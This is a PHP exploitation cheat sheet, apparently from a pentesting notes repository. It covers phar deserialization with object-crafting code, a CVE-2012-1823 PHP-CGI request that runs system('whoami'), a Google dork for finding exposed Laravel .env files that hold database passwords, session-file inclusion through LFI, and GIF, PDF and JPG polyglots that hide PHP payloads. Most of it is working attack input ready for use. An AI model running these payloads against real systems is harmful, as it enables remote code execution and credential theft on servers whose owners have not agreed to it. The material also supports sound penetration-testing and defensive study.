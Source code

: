 # PHP

## Deserialization

### Phar deserialization

The unserialization of a `phar` wrapper is realized in any file operation. Thus,
file operation such as `file_exists` might be less protected, then it's possible
to inject a `phar` wrapper within it.

The following code describes how to create a `phar` wrapper:

```php
<?php

require('weak_class.php');
# We craft an object by overwriting some methods and functions
$obj = new WeakClass();
$obj->args = "id";

# Then, we serialize the object to a file
file_put_contents("/tmp/exploit.phar", serialize($obj));
```

Here is an example of exploitable functions:

```
copy
file_exists
file_get_contents
file_put_contents
file
fileatime
filectime
filegroup
fileinode
filemtime
fileowner
fileperms
filesize
filetype
fopen
is_dir
is_executable
is_file
is_link
is_readable
is_writable
lstat
mkdir
parse_ini_file
readfile
rename
rmdir
stat
touch
unlink
```


## CVE-2012-1823: RCE in PHP-CGI

PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.

You can show the page source code:
```
GET https://<host>/file.php?-s
```

Or even execute PHP scripts (or a remote code execution)
```
POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input

<?php system('whoami'); ?>
```

More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)



## Laravel configuration file

The Laravel configuration file is sometimes exposed on the Internet with a dotEnv
file at the root level of the web server:

```
https://<host>/.env
```

You can find vulnerable target using a Google dork:

```
"DB_PASSWORD" filetype:env
```


## PHP session files

On PHP the directive [`session.save_path`](https://www.php.net/manual/en/session.configuration.php#ini.session.save-path)
set the folder where PHP will store the session files. So the session files are
written on the disk. A malicious user may read this files to retrieve information.

On a Windows system (IIS), the default value create files in `C:\Windows\Temp`
with the name `sess_<session_id>`. The `<session_id>` is the value of the
`PHPSESSIONID` cookie. When you have a `Local File Inclusion` (LFI) vulnerability,
it's possible to include this kind of files.

This file contains some user's session variable. So a user can write some PHP
code like `<?php phpinfo() ?>` (as a username for example) in his session and
try to include the file to execute the PHP code.

Here is 2 examples of exploitation:

- The `Alcatel Omnivista 8770` uses this trick to fetch some internal session variable
from the user session. The [exploit](https://www.exploit-db.com/exploits/47761)
gets the session file that is accessible on the server `/session/sess_<session_id>`.

- `ippsec` use this technique in the HTB box [`Sniper`](https://www.youtube.com/watch?v=k7gD4ufex9Q&t=3255s)
to create a use with a username that contains some PHP code. Then he includes
the session file with a LFI.


## PHP Polyglot file

A polyglot file is valid in two different format. For instance a valid `GIF`
file that contains a PHP payload.


### GIF89

[This file](./assets/polyglot.php.gif)) contains a PHP payload in the [Comment
Extension](https://www.w3.org/Graphics/GIF/spec-gif89a.txt) of a 1 pixel GIF:

```bash
hexdump -C assets/polyglot.php.gif
00000000  47 49 46 38 39 61 01 00  01 00 00 ff 00 2c 00 00  |GIF89a.......,..|
00000010  00 00 01 00 01 00 00 02  00 21 fe 3c 3f 70 68 70  |.........!.<?php|
00000020  69 6e 66 6f 28 29 3b                              |info();|
```

### PDF

You can add a comment (`%`) on the PDF header:

```pdf
%PDF-1.2 %<?phpinfo()?>
...
```

### Others formats

On most formats (mp3, jpg, ...) there is an `EOF` after what we can add the
payload. So the easiest way is to append to a valid file our payload:

```bash
cat valid.jpg payload.php > polyglot.php.jpg
```
